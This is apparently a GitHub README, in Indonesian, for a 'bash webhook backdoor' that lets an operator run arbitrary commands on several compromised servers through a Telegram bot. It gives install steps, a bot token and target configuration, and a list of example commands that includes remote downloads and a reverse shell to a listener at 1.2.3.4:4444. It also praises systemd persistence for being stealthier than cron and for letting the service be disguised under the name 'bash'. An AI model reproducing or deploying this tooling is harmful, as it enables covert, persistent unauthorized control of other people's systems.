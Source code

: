 # bash webhook backdoor


</h1>
<h4 align="center">command list</h4>

<p align="center">
    <img src="https://img.shields.io/badge/release-Prv8-blue.svg">
    <img src="https://img.shields.io/badge/issues-0-red.svg">
    <img src="https://img.shields.io/badge/php-7-green.svg">
    <img src="https://img.shields.io/badge/php-5-green.svg">
</p>

1. startup command `bash` value
```
bash install.sh

✅ Service akan restart otomatis jika crash atau mati.
✅ Bisa dicek dengan systemctl status bash.


script ini berjalan untuk multi target itu kenapa di /nc_telegram.sh
#!/bin/bash

# Konfigurasi Telegram
BOT_TOKEN="ganti"
CHAT_ID="-ganti"

# Daftar server yang bisa dieksekusi
TARGET_LIST=("kancil1")  # Tambahkan server lain di sini
TARGET_ID="kancil1"  # Gunakan hostname sebagai ID unik


ganti bot token dan chat_id serta tambahkan list tahet jika ada beberapa target .
=====================================================================================

tujuan nya untuk ketika menjalankkan di telegram comand nya seperti ini 
contoh 
server1 whoami
server2 whoami
server3 whoami

🔥 Keunggulan Metode Ini
✅ Tidak semua target merespon bersamaan, hanya target yang dipilih
✅ Bisa mengontrol banyak target dari satu bot Telegram
✅ Bisa melihat semua target yang aktif

apasaja yg bisa di jalankan di bot telegram 

perintah Linux apa saja, termasuk:

✅ ls -la → Menampilkan daftar file dengan detail.
✅ wget http://example.com/file → Mengunduh file dari internet.
✅ curl -O http://example.com/file → Alternatif download selain wget.
✅ ps aux → Melihat daftar proses.
✅ netstat -tulnp → Melihat koneksi jaringan.
✅ whoami && id → Cek user dan grup aktif.
✅ bash -i >& /dev/tcp/1.2.3.4/4444 0>&1 → Reverse shell ke listener.
✅ dan semua command linux 


contoh Hasilnya akan dikirim balik ke Telegram:
📡 Target: server1
💻 Command: ls -la
📤 Output:
total 12
drwxr-xr-x  2 root root 4096 Feb 19 12:00 .
drwxr-xr-x 10 root root 4096 Feb 19 10:00 ..
-rw-r--r--  1 root root  123 Feb 19 12:00 example.txt


🔥 Kesimpulan
✅ Systemd lebih stealth/senyap dibanding crontab
✅ Bisa berjalan otomatis tanpa perlu cron
✅ Nama service bisa disamarkan jadi bash
✅ Restart otomatis jika mati

```
